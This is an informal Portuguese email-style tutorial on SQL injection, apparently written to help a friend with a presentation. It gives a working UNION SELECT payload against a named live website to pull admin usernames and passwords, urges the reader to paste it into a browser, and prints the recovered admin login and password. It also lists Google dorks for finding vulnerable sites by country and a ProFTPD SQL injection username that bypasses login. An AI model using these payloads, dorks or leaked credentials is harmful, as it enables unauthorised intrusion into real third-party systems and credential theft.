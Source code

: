 Se você acrescentar uma aspa simples junto ao id, você poderá ver uma mensagem de erro retornada:

http://www.thailandquitline.or.th/news.php?id=60'

Isso aconteceu porque a consulta feita pelo news.php para o banco de dados foi 'corrompida'. Uma vez que o número passado para a variável id continha um código SQL (o aspa ' ). Isso é um bom sinal. Indo mais além olhe isto, jovem:

http://www.thailandquitline.or.th/news.php?id=-58 union all select concat(username,0x3a,password),2,3,4 from admin--

Copie tudo que está na linha a cima e cole no seu navegador.

Login: admin
Senha: systemadmin

Ciente de que existe um padrão na exploração de SQL injection (detecção do SGBD usado, enumeração de tabelas, busca por campos de tabela de usuarios para extração de login e senha e etc), alguns especialistas no assunto desenvolveram ferramentas que automatizam isto, como é o caso do Havij e do SQLMAP:

http://itsecteam.com/products/havij-advanced-sql-injection/
http://sqlmap.org/

Uma coisa que você tinha me perguntado: como encontrar sites vulneráveis á SQLi ?
A resposta: GOOGLE kk
Os sites que postei aqui nesse email foram encontrados por ele. Eu me utilizei de recursos
avançados do Google para pesquisas mais específicas.
Help: https://support.google.com/websearch/answer/2466433?hl=pt-BR

Pesquisas específicas utilizando de operadores avançados de pesquisa do Google
são comumente chamados de "dorks", exemplo de como encontrei os sites
vulneráveis da Itália:

inurl:/admin/admin.php +site:it

Outro exemplo: eu pesquiso por sites que contenham alguma URL com news.php?id=
e que tenha seu domínio .th (Tailândia):

inurl:news.php?id= +site:th


Ao contrário do que se pensam, SQL Injection não se limita apenas a sistemas WEB, vide o caso desta vulnerabilidade:

http://www.securityfocus.com/bid/33722/exploit

No caso desta falha, que seria interessante ser citada na apresentação, um serviço de FTP chamado "Proftpd" possui um módulo que permite autenticação do serviço de FTP com usuários cadastrados em um banco de dados MySQL. O interessante é que este módulo não fazia validação dos dados de entrada, permitindo que um atacante pudesse injetar strings SQL como nome de usuário, assim:

username: %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --
password: 1

E com isso ele conseguia rodar comandos no FTP server sem conhecer nenhum login nem senha.

Olha esse vídeo nos 4:20 demonstrando a utilização de um exploit que explora essa falha:

https://www.youtube.com/watch?v=s5EtYRiMf_o
